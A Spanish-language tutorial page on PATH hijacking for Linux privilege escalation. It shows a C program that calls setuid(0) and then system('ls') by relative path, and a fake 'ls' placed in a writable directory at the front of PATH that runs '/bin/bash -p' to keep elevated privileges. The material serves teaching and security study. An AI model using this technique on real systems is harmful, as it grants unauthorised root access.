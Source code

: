 # Path Hijacking

El Path Hijacking es una técnica de escalada de privilegios, que si se combinan con, por ejemplo, el privilegio SUID o sudo, puede llegar a ser peligrosa.

## Conceptos importantes

La ruta absoluta es la ruta completa que comienza con el directorio raíz (/) y llega hasta el archivo o el directorio solicitado. Para conocer la ruta absoluta de un archivo o directorio, ejecute rápidamente el comando pwd, y se le mostrará la ruta completa.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Las rutas absolutas no cambian cuando cambia el directorio actual. Piensa en ellas como rutas codificadas, mientras que las rutas relativas son rutas dinámicas que cambian dependiendo de la ubicación actual del directorio de trabajo.

La idea que hay detrás del Path Hijacking es abusar del path para poder controlar el binario que se ejecuta al llamar a un binario con su ruta relativa.

Veámoslo mejor con un ejemplo:

```c
#include <stdio.h>

int main(){

    setuid(0);
    printf("[*] Mostrando el contenido del directorio actual usando /usr/bin/ls\n");
    system("/usr/bin/ls");

    printf("[*] Mostrando el contenido del directorio actual usando ls\n");
    system("ls");

    return 0;
}

```

Si lo ejecutamos sin modificar el path, obtenemos la siguiente salida:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ahora vamos a modificar el path poniendo como primera ruta un directorio donde tenemos capacidad de escritura y ahí vamos a crear un binario que se llame ls que va a ser el que se ejecute cuando se haga la llamada a `system("ls");`

<figure><img src="../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, creamos en /tmp/test un binario llamado ls:

```c
#include <stdio.h>

int main(){

    system("/bin/bash -p");

    return 0;
}
```

De esta forma, al haber modificado el PATH, se ejecutará primero nuestro binario controlado y obtendremos una instancia de /bin/bash:

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

